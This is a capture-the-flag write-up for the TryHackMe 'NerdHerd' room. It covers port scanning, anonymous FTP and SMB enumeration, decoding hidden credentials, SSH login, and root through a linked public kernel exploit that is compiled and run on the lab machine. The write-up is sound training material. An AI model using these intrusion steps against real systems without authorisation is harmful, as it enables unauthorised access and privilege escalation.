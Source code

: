 ```yaml
---
title : NerdHerd - Writeup
---
```


_**Nov 06, 2020**_

[NerdHerd](https://tryhackme.com/room/nerdherd) Writeup

## Nmap Scan :
```
bvr0n@kali:~$ nmap -sC -sV 10.10.203.70
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Sep 11 03:45 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.14.157
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 0c:84:1b:36:b2:a2:e1:11:dd:6a:ef:42:7b:0d:bb:43 (RSA)
|   256 e2:5d:9e:e7:28:ea:d3:dd:d4:cc:20:86:a3:df:23:b8 (ECDSA)
|_  256 ec:be:23:7b:a9:4c:21:85:bc:a8:db:0e:7c:39:de:49 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: NERDHERD; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
1337/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: Host: NERDHERD; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -36m51s, deviation: 1h09m15s, median: 3m07s
|_nbstat: NetBIOS name: NERDHERD, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: nerdherd
|   NetBIOS computer name: NERDHERD\x00
|   Domain name: \x00
|   FQDN: nerdherd
|_  System time: 2020-11-06T20:27:25+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-06T18:27:26
|_  start_date: N/A
```

## FTP :

login to FTP we get a directory `/pub`, Enumerate it to get some juicy stuff :
```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ ncftp 10.10.203.70
ncftp /pub > ls -la
drwxr-xr-x    2 ftp      ftp          4096 Sep 14 18:35 .*****onyou
-rw-rw-r--    1 ftp      ftp         89894 Sep 11 03:45 youfoundme.png
ncftp /pub > cd .*****onyou   
ncftp /pub/.*****onyou > ls
hellon3rd.txt
```
After grabbing the image, i ran exiftoot on it and got this, This we'll use later :
```
Owner Name                      : fijbxslz
```

## Web Enum :

going to the web page and brute force directories we get a `/admin` that had something in the code source :

```
<!--
	these might help:
		Y2liYXJ0b3dza2k= : aGVoZWdvdTwdasddHlvdQ==
-->
```
When we decrypt it it gives :
```
Y2liYXJ0b3dza2k= : cibartowski
aGVoZWdvdTwdasddHlvdQ== : hehegou<.jÇ].[ÝD
```

## SMB :

```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ nbtscan 10.10.203.70

IP address       NetBIOS Name     Server    User             MAC address      
------------------------------------------------------------------------------
10.10.203.70     NERDHERD         <server>  NERDHERD         00:00:00:00:00:00
```

```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ smbclient --no-pass -L 10.10.203.70

Sharename       	        Type      Comment
---------       	        ----      -------
print$          	        Disk      Printer Drivers
********_********** 	    	Disk      Samba on Ubuntu
IPC$            	        IPC       IPC Service (nerdherd server (Samba, Ubuntu))
```
I tried accessing the `********_**********` but we need a valid user to login with, so i tried this :
```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ enum4linux 10.10.203.70
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri Nov  6 14:06:12 2020

 ========================== 
|    Target Information    |
 ========================== 

Target ........... 10.10.203.70
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
 
============================= 
|    Users on 10.10.203.70    |
 ============================= 

index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: *****    Name: ChuckBartowski    Desc: 

user:[chuck] rid:[0x3e8]
```

Looks like user `*****` have access to the shared folder, i tried accessing it with the creds i got earlier, but nothing!! so i asked the author!! this one `fijbxslz` was `Vigenere
Cipher` ! And the key to decrypt it is the youtube title we got earlier :
```
Key : ****istheword
Password : ****pass
```
```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ smbclient -U ***** //10.10.203.70/********_**********
Enter WORKGROUP\*****'s password: 
smb: \> dir
  secr3t.txt                          N      125  Thu Sep 10 21:29:53 2020
```
And we have access to the shared folder.

inside the file we get a directory and that leed us to ssh creds :))


## Internal Enum :

When i ran linpeas i noticed that this machine is running an outdated kernel :
```
chuck@nerdherd:~$ uname -a
Linux nerdherd 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

I searched for it and i found this [Exploit](https://www.exploit-db.com/exploits/45010)

I downloaded the exploit into my machine and transferred it to the victims machine :

```
*****@nerdherd:~$ gcc 45010.c -o exploit
*****@nerdherd:~$ chmod +x exploit 
*****@nerdherd:~$ ./exploit 
root@nerdherd:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(chuck)
```

And we got ROOOOT :)))

For the root flag i did someting like this :
```
root@nerdherd:/root# find / -user root -type f -iname "*.txt"
```
Accourding to the room hint, the bonus flag is 100% located in `.bash_history`.


<br>
best regards

[bvr0n](https://linkedin.com/in/taha-el-ghadraoui-5921771a5)


<br>
[back to main()](https://bvr0n.github.io/)

<br>
